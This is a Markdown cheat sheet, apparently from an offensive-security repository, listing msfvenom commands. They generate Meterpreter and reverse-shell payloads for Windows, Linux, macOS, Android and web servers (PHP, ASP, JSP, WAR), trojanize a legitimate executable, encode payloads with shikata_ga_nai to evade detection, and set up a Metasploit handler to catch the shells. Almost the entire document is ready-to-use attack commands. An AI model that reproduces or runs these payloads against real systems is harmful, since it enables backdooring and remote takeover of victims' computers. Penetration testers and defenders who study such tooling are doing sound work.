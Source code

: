 # Msfvenom Cheat Sheet

---

![MsfVenom](/images/cheatsheet/offensive_security/msfvenom_wallpaper.png)

MsfVenom is a Metasploit standalone payload generator as a replacement for msfpayload and msfencode.

### Binaries

| Info | Commands |
| --- | --- |
| Creates a simple TCP Payload for Windows  | ``` msfvenom -p windows/meterpreter/reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -f exe > example.exe ``` |
| Creates a simple HTTP Payload for Windows | ``` msfvenom -p windows/meterpreter/reverse_http LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -f exe > example.exe ``` |
| Creates a simple TCP Shell for Linux      | ``` msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -f elf > example.elf ``` |
| Creates a simple TCP Shell for Mac        | ``` msfvenom -p osx/x86/shell_reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -f macho > example.macho ``` |
| Creats a simple TCP Payload for Android   | ``` msfvenom -p android/meterpreter/reverse/tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} R > example.apk ``` |

### Web Payloads

| Info | Commands |
| --- | --- |
| Creats a Simple TCP Shell for PHP | ```msfvenom -p php/meterpreter_reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -f raw > example.php``` |
| Creats a Simple TCP Shell for ASP | ```msfvenom -p windows/meterpreter/reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -f asp > example.asp``` |
| Creats a Simple TCP Shell for Javascript | ```msfvenom -p java/jsp_shell_reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -f raw > example.jsp``` |
| Creats a Simple TCP Shell for WAR | ```msfvenom -p java/jsp_shell_reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -f war > example.war``` |

### Windows Payloads

| Info | Commands |
| --- | --- |
| Lists all avalaible encoders | ```msfvenom -l encoders``` |
| Binds an exe with a Payload (Backdoors an exe) | ```msfvenom -x base.exe -k -p windows/meterpreter/reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -f exe > example.exe``` |
| Creates a simple TCP payload with shikata_ga_nai encoder | ```msfvenom -p windows/meterpreter/reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -e x86/shikata_ga_nai -b ‘\x00’ -i 3 -f exe > example.exe``` |
| Binds an exe with a Payload and encodes it | ```msfvenom -x base.exe -k -p windows/meterpreter/reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -e x86/shikata_ga_nai -i 3 -b “\x00” -f exe > example.exe``` |

- How do I get the meterprater shell?

```bash
sudo msfconsole

msf > use exploit/multi/handler

msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp

msf exploit(multi/handler) > set lhost 192.168.1.123
lhost => 192.168.1.123

msf exploit(multi/handler) > set lport 4444
lport => 4444

msf exploit(multi/handler) > run
```


---
[Cheat Sheet](/cheatsheet/cheatsheet_readme.md) [HOME Page](/README.md)
